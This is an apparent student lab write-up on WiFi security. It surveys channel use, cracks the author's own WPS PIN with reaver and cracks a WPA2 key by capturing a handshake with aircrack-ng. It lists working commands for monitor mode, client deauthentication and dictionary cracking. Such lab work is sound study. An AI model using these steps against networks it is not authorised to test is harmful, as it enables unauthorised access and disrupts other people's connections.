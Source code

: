 ```yaml
---
title: "Sikkerhetsøving 17: Wifi"
author: Tore Bergebakken
---
```


# Hacking wireless networks

## Channel usage

Used Network Analyzer (an open-source app for Android) to see how occupied the channels around my apartment were.

Because of the intense activity around channel 11, and the relative vacancy around channel 6, I would pick **channel 6** for a new network.

![a lot of networks](img/wifi.png){ width=250px }

Note to self: Could have used `nmcli d wifi`.

## WPS

Since my network used WPS, I figured it'd be interesting to try cracking the WiFi password through this attack vector.

Using `reaver` and components of `aircrack-ng` like in
[this guide](https://linuxconfig.org/break-wps-and-find-your-wifi-password-with-reaver)
yielded some results.

Initial detection on wireless card `$WL`:

+ `airmon-ng start "$WL"` → virtual interface `$MON`
+ `airodump-ng "$WL"` → find `$BSSID` and channel

Then finally, after running

```sh
reaver -i "$MON" -d 10 -S -N -vv -b "$BSSID"
```

for several hours, the PIN was cracked:

\<image with obscured PIN\>

Disabled monitor mode with `airmon-ng stop "$MON"`.

## WPA2

Bruteforcing the WiFi password? Well, that's gonna take a looong time.
However, if I add the actual password to the dictionary used for the attack...
This is just a demonstration, anyway.

I followed some guides on the `aircrack-ng` wiki:

+ [How to crack WPA/WPA2](https://www.aircrack-ng.org/doku.php?id=cracking_wpa)
+ [Injection test](https://www.aircrack-ng.org/doku.php?id=injection_test)

Compiled steps, with `$CHAN` set to the network's channel:

An optional test with e.g. `aireplay-ng -"$CHAN" "$WL"` to check if you can inject anything at all.

1. Set your interface in monitor mode with `airmon-ng start "$WL" "$CHAN"` like above.
2. Possibly capture handshakes with `airodump-ng -c "$CHAN" --bssid "$BSSID" -w psk "$MON"`
   + Look for a client's MAC address
3. Deauthenticate some client with ` aireplay-ng -0 1 -a "$BSSID" -c "$CLIENT_MAC" ath0` and get a handshake quickly
   + The MAC address was gathered in the previous step
   + Check if the client received your packet with `tcpdump`
   + This gives some `psk` files
4. Actually crack the WPA key with `aircrack-ng -w password.lst -b "$BSSID" psk*.cap` or `aircrack-ng -b "$BSSID" psk*.cap < passwords.txt`
   + The WPA key _has_ to be among the passords in your dictionary
   + The `password.lst` file is in the `test` dir of aircrack's source.
   + In my case, I **put the actual password inside the dictionary** since this is all for the sake of demonstration and I know the key already.

\<image of result\>
